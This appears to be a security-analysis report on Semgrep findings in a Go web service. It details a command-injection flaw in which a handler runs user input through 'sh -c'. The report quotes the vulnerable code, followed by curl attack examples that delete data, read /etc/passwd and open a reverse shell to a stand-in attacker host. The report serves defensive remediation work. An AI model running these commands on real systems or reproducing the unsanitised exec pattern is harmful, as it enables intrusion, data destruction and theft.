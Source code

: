 # Security Vulnerabilities Analysis

This document provides a comprehensive analysis of security vulnerabilities identified by Semgrep in the ItemPDPService codebase. Each vulnerability is documented with its location, severity, impact, and planned remediation.

## Executive Summary

**Total Vulnerabilities Found: 32**
- **High Severity: 11**
- **Medium Severity: 8** 
- **Low Severity: 13**

## Critical Vulnerabilities (High Severity)

### 1. Command Injection (gin-command-injection-taint)
**Location:** `internal/application/http/handlers/item_handler.go:564`
**Severity:** High
**CWE:** CWE-78 (OS Command Injection)

**Description:**
The `ExecuteSystemCommand` function directly executes user-provided input through `exec.Command("sh", "-c", command)` without any validation or sanitization.

**Vulnerable Code:**
```go
func (h *ItemHandler) ExecuteSystemCommand(c *gin.Context) {
    command := c.Query("command")
    if command == "" {
        c.JSON(http.StatusBadRequest, middleware.ErrorResponse{
            Error: "Command parameter is required",
        })
        return
    }
    
    // VULNERABLE: Direct execution of user input
    cmd := exec.Command("sh", "-c", command)
    output, err := cmd.CombinedOutput()
    // ...
}
```

**Impact:**
- **Critical**: Allows arbitrary command execution on the server
- Attackers can gain complete system control
- Potential for data exfiltration, system compromise, and lateral movement
- Can be exploited remotely via HTTP requests

**Attack Examples:**
```bash
# Delete files
curl -X POST "http://localhost:8080/admin/execute?command=rm -rf /important/data"

# Exfiltrate data
curl -X POST "http://localhost:8080/admin/execute?command=cat /etc/passwd"

# Establish reverse shell
curl -X POST "http://localhost:8080/admin/execute?command=nc -e /bin/sh attacker.com 4444"
```
